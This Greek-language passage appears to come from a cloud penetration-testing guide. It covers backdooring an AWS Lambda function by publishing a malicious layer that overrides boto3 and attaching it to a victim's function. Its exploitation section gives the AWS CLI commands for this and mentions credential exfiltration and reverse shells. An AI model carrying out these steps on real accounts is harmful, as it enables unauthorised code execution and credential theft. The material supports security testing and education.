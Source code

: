 Μέσα στη λειτουργία λάμδα μπορείτε να ελέγξετε τα μονοπάτια από όπου φορτώνεται ο κώδικας Python με μια λειτουργία όπως η παρακάτω:
```python
import json
import sys

def lambda_handler(event, context):
print(json.dumps(sys.path, indent=2))
```
Αυτά είναι τα μέρη:

1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

Για παράδειγμα, η βιβλιοθήκη boto3 φορτώνεται από το `/var/runtime/boto3` (4η θέση).

#### Εκμετάλλευση

Είναι δυνατόν να καταχραστείτε την άδεια `lambda:UpdateFunctionConfiguration` για **προσθήκη νέου επιπέδου** σε μια λειτουργία lambda. Για να εκτελέσετε αυθαίρετο κώδικα, αυτό το επίπεδο πρέπει να περιέχει κάποια **βιβλιοθήκη που η λειτουργία lambda θα εισάγει.** Αν μπορείτε να διαβάσετε τον κώδικα της λειτουργίας lambda, μπορείτε να βρείτε αυτό εύκολα, επίσης σημειώστε ότι είναι πιθανό ότι η λειτουργία lambda **χρησιμοποιεί ήδη ένα επίπεδο** και θα μπορούσατε να **κατεβάσετε** το επίπεδο και να **προσθέσετε τον κώδικά σας** εκεί.

Για παράδειγμα, ας υποθέσουμε ότι η λειτουργία lambda χρησιμοποιεί τη βιβλιοθήκη boto3, αυτό θα δημιουργήσει ένα τοπικό επίπεδο με την τελευταία έκδοση της βιβλιοθήκης:
```bash
pip3 install -t ./lambda_layer boto3
```
Μπορείτε να ανοίξετε το `./lambda_layer/boto3/__init__.py` και **να προσθέσετε την πίσω πόρτα στον κώδικα** (ένα συνάρτηση για εξώφληση διαπιστευτικών ή για ανάκτηση αντίστροφης κέλυφους για παράδειγμα).

Στη συνέχεια, συμπιέστε τον φάκελο `./lambda_layer` και **ανεβάστε το νέο λάμδα layer** στον δικό σας λογαριασμό (ή στον λογαριασμό του θύματος, αλλά μπορεί να μην έχετε δικαιώματα γι' αυτό).\
Σημειώστε ότι πρέπει να δημιουργήσετε έναν φάκελο python και να τοποθετήσετε τις βιβλιοθήκες εκεί για να αντικαταστήσετε το /opt/python/boto3. Επίσης, το layer πρέπει να είναι **συμβατό με την έκδοση της python** που χρησιμοποιείται από το λάμδα και αν το ανεβάσετε στον δικό σας λογαριασμό, πρέπει να είναι στην **ίδια περιοχή:**
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

Τώρα, κάντε το επιφορτισμένο lambda layer **προσβάσιμο από οποιοδήποτε λογαριασμό**:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
Και επισυνάψτε το λάμδα επίπεδο στη λειτουργία λάμδα του θύματος:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```